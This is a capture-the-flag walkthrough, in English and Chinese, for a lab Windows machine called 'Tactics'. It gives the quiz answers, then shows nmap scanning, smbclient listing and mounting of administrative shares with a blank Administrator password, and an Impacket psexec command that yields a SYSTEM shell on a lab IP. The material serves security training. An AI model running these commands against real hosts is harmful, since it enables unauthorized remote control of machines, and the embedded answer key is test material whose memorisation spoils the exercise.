




<center>Tactics</center>


[toc]


## Tactics

> Tactics


### 1. task

1. Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?

```shell
-Pn
```

2. What does the 3-letter acronym SMB stand for?

```shell
Server Message Block
```

3. What port does SMB use to operate at?

```shell
445
```

4. What command line argument do you give to `smbclient` to list available shares?

```shell
-L
```

5. What character at the end of a share name indicates it's an administrative share?

```shell
$
```

6. Which Administrative share is accessible on the box that allows users to view the whole file system?

```shell
C$
```

7. What command can we use to download the files we find on the SMB Share?

```shell
get
```

8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

```shell
psexec.py
```


### 2. Psexec 工具

> Psexec通过在远程系统的ADMIN$共享上上传一个随机命名的可执行文件来创建一个远程服务，然后将其注册为Windows服务。以此产生一个交互式shell，通过TCP端口445在远程Windows系统上执行。
> Psexec要求具有本地管理员或更高权限的用户的凭据（可以读取/写入ADMIN），验证成功后，将获取一个 NT AUTHORITY\SYSTEM shell 。
>
> [github](https://github.com/fortra/impacket.git)  [blog](https://blog.csdn.net/qq_44159028/article/details/121289328)
>
> Impacket 使用： [blog](https://www.cnblogs.com/ciyze0101/p/15315811.html)

```shell
git clone https://github.com/CoreSecurity/impacket.git

python3 -m pipx install .

# docker
docker build -t "impacket:latest" .
docker run -it --rm "impacket:latest"


# arch 
yay -S impacket

# debian 
sudo apt update
sudo apt install snapd
sudo snap install snapd
sudo systemctl restart snapd
sudo systemctl enable snapd
sudo snap install impacket

# 使用
impacket-命令
```

> 使用

```shel
impacket-psexec username:password@target_ip

# 由于Administrator账号是空密码，执行如下：
python3 psexec.py Administrator@10.129.251.55
```




### 3. flag

> 获取flag

```shell
nmap -sC -Pn IP
```



> 使用**`空密码列出Administrator账号下的共享`**

```shell
smbclient -L 10.129.251.55 -U Administrator
```



```shell
ADMIN$ --- 管理共享是由 Windows NT系列操作系统创建的隐藏网络共享，它允许系统管理员远程访问网络连接系统上的每个磁盘卷。这些共享不能被永久删除，但可以被禁用。
C$ --- C:\磁盘卷的管理共享。这是操作系统托管的地方。
IPC$ --- 进程间通信共享。通过命名管道用于进程间通信，不属于文件系统的一部分。
```

> 连接C$共享

```shell
smbclient \\\\IP\\C$ -U Administrator
```




